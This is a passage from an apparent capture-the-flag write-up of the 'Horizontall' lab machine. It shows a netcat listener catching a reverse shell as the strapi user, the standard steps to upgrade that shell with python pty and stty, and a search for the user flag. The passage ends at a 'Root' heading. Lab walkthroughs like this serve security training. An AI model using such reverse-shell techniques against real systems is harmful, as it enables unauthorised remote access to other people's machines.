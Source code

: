 [![revshell_burp](/img/horizontall/revshell_burp.png)](/img/horizontall/revshell_burp.png)

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.193.59.
Ncat: Connection from 10.129.193.59:60216.
bash: cannot set terminal process group (1797): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ export TERM=xterm
export TERM=xterm
strapi@horizontall:~/myapi$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

strapi@horizontall:~/myapi$ stty rows 55 cols 236
strapi@horizontall:~/myapi$ find / -name user.txt -ls 2>/dev/null
   272801      4 -r--r--r--   1 developer developer       33 Aug 28 19:01 /home/developer/user.txt
strapi@horizontall:~$ wc -c /home/developer/user.txt
33 /home/developer/user.txt
```

# Root
